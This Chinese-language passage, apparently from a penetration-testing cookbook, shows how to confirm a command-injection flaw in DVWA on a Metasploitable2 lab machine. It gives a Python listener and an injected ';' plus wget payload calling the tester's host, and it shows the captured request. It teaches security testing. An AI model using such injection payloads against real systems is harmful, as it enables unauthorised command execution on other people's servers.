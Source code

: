 为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统和 Web 服务器交互，我们就能够验证 Web 应用中的命令注入漏洞。日志可以作为漏洞服务器和它交互的证据。作为替代，可以编写一个自定义脚本来生成一个临时的 Web 服务，它可以监听外部连接，并打印接收到的请求。下面的 Python 代码完成了这件事情：

```
#!/usr/bin/python
import socket
httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
httprecv.bind(("0.0.0.0",8000)) 
httprecv.listen(2)

(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip 
data = client.recv(4096) 
print str(data)

client.close() 
httprecv.close() 
```

一旦执行脚本，我们需要强迫目标服务器和监听服务交互，来确认命令注入漏洞。DWVA 应用拥有`ping`功能，可以用于 ping 一个指定 IP 地址。用户输入直接传递给系统调用，可以修改来执行底层 OS 的任意命令、我们可以通过使用分号来添加多个命令，每个命令依次排列，像这样：

![](../img/7c3ece960c6781dd4b3b769f3aa0976f.png)

在上面的例子中，输入用于 ping `127.0.0.1`，并且对`http://172.16.36.224:8000`执行`wget`。`wget`请求对应临时的 Python 监听服务。在提交输入后，我们可以通过参考脚本的输入来验证命令执行：

```
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* Host: 172.16.36.224:8000 
Connection: Keep-Alive 
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。
